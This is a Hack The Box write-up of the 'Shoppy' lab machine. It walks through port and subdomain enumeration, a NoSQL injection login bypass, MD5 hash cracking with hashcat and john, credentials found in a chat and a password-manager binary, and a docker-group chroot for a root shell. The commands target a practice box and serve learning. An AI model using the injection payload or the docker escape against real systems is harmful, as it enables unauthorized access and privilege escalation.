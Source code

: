 ```yaml
---
title: Hack the Box - Writeup (Shoppy)
description: This box consists of searching for the credentials on the webapp,
  and then find our way up to escalate our priviledges for root access to the
  machine.
category: Writeup
author:
  name: Farouk Mokhtari
  email: fmokhtari@mail.ru
  website: https://fmokhtari.com
  btc: 1JJmuidSTRCugnBKH8H7bDxEmTtAAg4kyn
  usdt: TWi6yNRhxzkmgZhhoriDzWgvrSsxbdQCb8
  xmr: 87Asjp2TLCkKnw3PYsiKaTDwL8mNhiL7uV67ptCtVxqbSnaZfATQ6t4d1mfWnKu4kB4ieQHMApGhUdUY3h4RKBS2Kuc5RyW
tags:
  - hackthebox
  - ctfs
date: 2022-12-10T08:53:17.813Z
---
```

## Introduction

Hello everybody, this machine (Shoppy) from Hack The Box is an easy one. It
consists of searching for the credentials on the webapp, and then find our way
up to escalate ur priviledges for root access to the machine.

## Enumeration

As usual we start our enumeration with an _nmap_ scan to see our open ports.

We have this output :

```shell
# Nmap 7.93 scan initiated Wed Dec  7 22:43:45 2022 as: nmap -sC -sV -v -oA 10.10.11.180-shoppy.txt 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  7 22:43:59 2022 -- 1 IP address (1 host up) scanned in 13.78 seconds

```

Now since we know there's only two ports open :

- 22 (ssh)
- 80 (http) We get a domain in here [shoppy.htb](http://shoppy.htb)

We continue our enumeration with a gobuster probe that gives these results :

```shell
gobuster -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

```

![GoBuster](/images/shoppy/gobuster.png)

Now we notice there are two important pages **login** page and an **admin**
section. On the login page there's a vulnerability using NoSQL injection, we use
**admin'||'1==1** to exploit.

This will give us access to the admin panel :

![Dashboard](/images/shoppy/dashboard.png)

Once again here we search with NoSQL injection :

![Search](/images/shoppy/search.png)

We get a json file to download with all the users :

![Download](/images/shoppy/download.png)

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

We discover two users, **admin** and **josh**, with 2 hashes are _md5_. After
cracking them using **john the ripper**.

> **Note :** You can use **john the ripper** or **hashcat**,
> it doesn't matter, you'll get the same result.

Both commands are like so :

```shell
hashcat -m 0 hashfile /usr/share/dict/rockyou.txt

```

```shell
john --wordlist=/usr/share/dict/rockyou.txt hashfile

```

We got this for _josh_ :

```
username: josh
password: remembermethisway
```

At the same time we conduct another probing with **ffuf** for subdomain
enumeration. ffuf results are as follows :

```shell
ffuf -w bitquark-subdomains-top100000.txt -v -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -fs 169
```

> **Note :** We add the **-fs** flag because we get a lot of pages with the
> same size and we want pages with different sizes.

```shell
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

[Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 93ms]
| URL | http://shoppy.htb/
    * FUZZ: mattermost

:: Progress: [100000/100000] :: Job [1/1] :: 392 req/sec :: Duration: [0:04:42] :: Errors: 0 ::

```

We discover a subdomain **mattermost** to add to the _hosts_ file. After
accessing the sub we see this page :

![MatterMost](/images/shoppy/login.png)

Now, we can use the credentials we found for the user _josh_ on that subdomain.
And in the development section on the website we find an interesting disscution
between josh and what appears to be a sysadmin **jaeger**.

![sysadmin](/images/shoppy/sysadmin.png)

On the Deploy Machine channel we find some credentials for jaeger's account :

![Jaeger](/images/shoppy/jaeger.png)

```
username: jaeger
password: Sh0ppyBest@pp!
```

## Exploitation

So we use these credentials to access our machine via ssh. We find 2 users on
the machine, first _jaeger_ himself, the other is _deploy_. So, on the deploy
account we can find the password manager that josh was talking about.

We copy it to our account so we can run it. It's a simple program that spits out
credentials when the master password is given.

Let's try and find out what is the master password, using **xxd** we find our
password.

```shell
xxd password-manager | less
```

We scroll down the file and we find a section that gives the following :

![xxd](/images/shoppy/xdd.png)

The master password is **Sample**. Now after inserting the password, we got an
access granted and the output of _creds.txt_ file.

```shell
echo Sample | sudo -u deploy /home/deploy/password-manager
```

```shell
Welcome to Josh password manager!
Please enter your master password: Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

## Priviledge Escalation

Now let's ssh into the deploy account. We are in the deployment account, we
notice that the user is a member of the docker group

```shell
groups deploy
deploy docker
```

And we notice that docker contains an image of alpine, so we can use this
command to get a root shell on the machine.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Now you know the drill!
